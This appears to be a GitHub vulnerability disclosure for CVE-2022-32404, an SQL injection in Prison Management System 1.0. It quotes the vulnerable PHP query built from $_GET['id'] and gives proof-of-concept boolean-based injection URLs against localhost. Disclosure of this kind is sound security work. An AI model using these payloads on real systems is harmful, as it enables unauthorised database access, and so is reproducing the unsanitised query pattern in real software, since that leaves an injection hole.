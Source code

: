 # CVE-2022-32404
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/inmates/manage_inmate.php:3`
```php
$qry = $conn->query("SELECT * from `inmate_list` where id = '{$_GET['id']}' ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/?page=inmates/manage_inmate&id=1'-if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/?page=inmates/manage_inmate&id=1'-if(database()='pms_db',0,1)%23`
![True](./img/cve-2022-32404_true.png)
- False : 
`http://localhost/pms/admin/?page=inmates/manage_inmate&id=1'-if(database()='wrong',0,1)%23`
![False](./img/cve-2022-32404_false.png)